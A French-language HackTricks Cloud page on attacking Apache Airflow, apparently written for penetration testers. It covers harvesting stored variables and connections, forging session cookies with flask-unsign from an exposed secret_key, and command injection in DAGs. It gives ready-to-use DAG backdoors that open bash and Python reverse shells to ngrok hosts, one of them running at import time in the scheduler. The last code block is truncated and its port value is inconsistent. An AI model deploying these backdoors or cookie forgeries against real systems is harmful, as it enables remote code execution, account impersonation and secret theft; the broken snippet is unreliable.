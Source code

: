 # Sécurité d'Apache Airflow

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Informations de base

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **l'orchestration et la planification de pipelines de données ou de workflows**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'arrangement, de coordination et de gestion de workflows de données complexes provenant de diverses sources. Le but principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et consommables. Ces ensembles de données sont largement utilisés par une myriade d'applications, y compris, mais sans s'y limiter, les outils d'intelligence d'affaires, les modèles de science des données et d'apprentissage automatique, qui sont tous fondamentaux au fonctionnement des applications de big data.

En gros, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

### Laboratoire local

#### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker apache airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la VM docker).

#### Minikube

Une façon simple de **faire fonctionner apache airflow** est de l'exécuter **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuration d'Airflow

Airflow pourrait stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place :

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC d'Airflow

Avant de commencer à attaquer Airflow, vous devez comprendre **comment fonctionnent les permissions** :

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attaques

#### Énumération de la Console Web

Si vous avez **accès à la console web**, vous pourriez être en mesure d'accéder à certaines ou à toutes les informations suivantes :

* **Variables** (Des informations sensibles personnalisées pourraient être stockées ici)
* **Connexions** (Des informations sensibles personnalisées pourraient être stockées ici)
* Accédez-y dans `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme le **`secret_key`** et des mots de passe pourraient être stockées ici)
* Liste des **utilisateurs et rôles**
* **Code de chaque DAG** (qui pourrait contenir des informations intéressantes)

#### Récupérer les Valeurs des Variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment de permissions**, vous pouvez y accéder dans l'interface graphique à `http://<airflow>/variable/list/`.\
Airflow affichera par défaut la valeur de la variable dans l'interface graphique, cependant, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra sous forme de **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (164).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), exécution de **DAG** arbitraire, **API** accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même !**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Exporter**.\
Une autre façon est d'effectuer un **bruteforce** sur la **valeur cachée** en utilisant le **filtrage de recherche** jusqu'à ce que vous l'obteniez :

![](<../../.gitbook/assets/image (152).png>)

#### Escalade de Privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et **au-dessus**, on peut **lire** la **configuration sur le web**. Dans cette configuration, le **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cette validité peut **créer son propre cookie signé pour usurper n'importe quel autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE dans le worker Airflow)

Si vous avez **un accès en écriture** à l'endroit où les **DAGs sont sauvegardés**, vous pouvez simplement **en créer un** qui vous enverra un **reverse shell.**\
Notez que ce reverse shell sera exécuté à l'intérieur d'un **conteneur de worker airflow** :
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE dans le planificateur Airflow)

Si vous définissez quelque chose pour être **exécuté à la racine du code**, au moment de l'écriture de ce document, il sera **exécuté par le planificateur** après quelques secondes après l'avoir placé dans le dossier du DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

#### Injection de Code DAG

Lorsque vous exécutez un DAG depuis l'interface graphique, vous pouvez **passer des arguments** à celui-ci.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à l'injection de commandes.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à chercher des injections de commandes dans les DAGs** est que les **paramètres** sont **accédés** avec le code **`dag_run.conf.get("param_name")`**.

De plus, la même vulnérabilité pourrait se produire avec des **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accessibles avec** :
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
S'ils sont utilisés par exemple à l'intérieur d'une commande bash, vous pourriez effectuer une injection de commande.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
